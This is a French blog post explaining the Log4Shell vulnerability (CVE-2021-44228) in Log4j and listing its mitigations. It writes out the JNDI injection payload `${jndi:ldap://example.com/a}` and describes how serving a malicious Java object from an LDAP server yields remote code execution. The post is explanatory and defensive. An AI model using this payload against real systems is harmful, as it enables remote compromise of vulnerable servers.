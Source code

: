 Author: Eban
Date: 2021/12/11
Title: Log4j, une vulnérabilité d'une ampleur inédite
Summary: Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell (CVE-2021-44228) a ébranlé le petit monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article.
Slug: log4j
Keywords: sécurité

Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)) a ébranlé le monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article.

[Log4j2](https://github.com/apache/logging-log4j2) est une bibliothèque Java permettant de générer... des logs, c'est comme le Port-Salut, c'est écrit dessus 😉. Cette bibliothèque est extrêmement utilisé par de nombreuses entreprises, comme, pour ne citer qu'elles, Apple, Steam, Twitter, Amazon, Tesla ou encore Microsoft. Le problème est qu'une vulnérabilité a été découverte sur ce logiciel. Cette vulnérabilité était passée jusqu'alors inaperçue, le 9 décembre un utilisateur de Github, `wcc526`, interroge l'auteur d'une pull request corrigeant cette faille à propos de celle ci. S'ensuit la publication d'une CVE et d'un Proof Of Concept.

![Message de wcc526 "Is it a security vulnerability"](/static/img/log4j/github.png)

## 💥 Exploitation 

L'exploitation de cette vulnérabilité est triviale, une simple suite de caractères comme `${jndi:ldap://example.com/a}` permet d'obtenir une RCE (Remote Code Execution) sur le serveur distant.

JNDI est l'acronyme de "Java Naming and Directory Interface", c'est une fonction de Java qui permet d'interroger des directories afin d'obtenir en retour un objet java. Un directory, c'est une sorte de base de donnée principalement utilisée en entreprise qui stocke des informations comme par exemple les utilisateurs, leurs droits, etc. On peut citer ActiveDirectory ou encore [LDAP](https://fr.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol) comme exemple de directory bien connu. Java, à travers JNDI, supporte le directory bien connu LDAP. La syntaxe `jndi:ldap://example.com/a` interroge le serveur LDAP sur le serveur example.com et va télécharger l'objet a.

La syntaxe `${}`indique à Log4j qu'il faut évaluer ce qui est indiqué entre accolades. Par exemple, `${java:version}` renverra la version de java. Ici, `${jndi:ldap://example.com/a}` indique à Log4j d'évaluer (exécuter) l'objet présent à l'URI `ldap://example.com/a`.

Au vu de ces éléments, il est trivial d'obtenir une RCE sur le serveur distant. Il suffit de monter un serveur LDAP malicieux contenant un objet Java vérolé et de faire en sorte que `${jndi:ldap://SERVEUR/OBJET}` soit loggé.

Cette vulnérabilité est très inquiétante au vu de la facilité avec laquelle elle peut être exploitée. À la découverte de cette dernière, de nombreux bots ont scanné l'ensemble d'Internet à la recherche de serveur vulnérables. Le serveur qui héberge le site web que vous visitez en ce moment a été visité par certains d'entre eux.

![De nombreux bots essayent d'envoyer des payload malveillants](/static/img/log4j/vm01.png)

## 🧑‍🚒 Limiter les dégâts

Il existe plusieurs méthodes afin de mitiger cette faille de sécurité.

La première, la plus évidente, mettre à jour log4j vers la version 2.17.0 et/ou Java vers la version 8u121 (sortie début 2017). ⚠️ Les versions 2.15 et 2.16 sont respectivement vulnérables à une RCE et un attaque DOS ces versions ne sont donc pas à considérer comme sécurisées.    



La seconde, mettre la variable `log4j2.formatMsgNoLookups` à `True`, ceci peut être fait en ajoutant l'argument `‐Dlog4j2.formatMsgNoLookups=True` à la commande permettant de lancer l'application Java. Ceci peut aussi être fait en ajoutant la variable d'environnement Linux `LOG4J_FORMAT_MSG_NO_LOOKUPS`.

La troisième, plus radicale, consiste à enlever purement et simplement la classe `JndiLookup` qui est la cause de cette vulnérabilité. Ceci peut être fait avec la commande `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class` notamment.

Une autre solution plus amusante a été mise en place par Maayan-Sela et cr-mitmit, elle s'appelle `Logout4Shell`, c'est un logiciel en Java qui permet de patcher n'importe quel serveur vulnérable. Le code est disponible [ici](https://github.com/Cybereason/Logout4Shell).

Une autre solution, préventive cette fois, qui aurait pu limiter grandement les dégâts, est de bien cloisonner ses différents services. Ceci peut être fait au moyen de [services systemd renforcés](https://ilearned.eu/systemd-sandboxing.html), ou de technologies de conteneurisation comme Docker.